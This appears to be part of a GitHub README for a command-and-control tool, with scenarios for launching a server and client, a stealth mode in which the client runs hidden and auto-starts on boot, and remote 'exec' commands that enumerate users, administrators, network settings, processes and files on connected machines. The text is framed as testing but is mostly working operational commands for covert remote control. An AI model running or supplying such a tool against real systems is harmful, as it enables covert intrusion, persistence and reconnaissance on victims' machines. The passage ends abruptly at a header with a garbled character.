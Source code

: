 ## 🎯 Real-World Testing Scenarios

### Scenario 1: Local Network Testing
```batch
# Server Machine (192.168.1.100)
c2_server.exe

# Target Machine  
c2_client.exe --server 192.168.1.100 --port 4444
```

### Scenario 2: Stealth Testing
```batch
# Client runs completely hidden
c2_client.exe --server 192.168.1.100
# No visible windows, auto-starts on boot
```

### Scenario 3: Multi-Client Testing
```batch
# Run multiple clients from different machines
# Server manages all simultaneously
C2> clients  # See all connected machines
```

### Scenario 4: Command Examples
```bash
# System Reconnaissance
C2> exec <client_id> systeminfo
C2> exec <client_id> whoami /all
C2> exec <client_id> net user
C2> exec <client_id> net localgroup administrators

# Network Discovery  
C2> exec <client_id> ipconfig /all
C2> exec <client_id> arp -a
C2> exec <client_id> netstat -an
C2> exec <client_id> nslookup google.com

# Process and Service Enumeration
C2> exec <client_id> tasklist
C2> exec <client_id> wmic process list
C2> exec <client_id> sc query

# File System Operations
C2> exec <client_id> dir C:\Users
C2> exec <client_id> dir "C:\Program Files"
C2> exec <client_id> type C:\Windows\System32\drivers\etc\hosts
```

## �️ Client Configuration Options
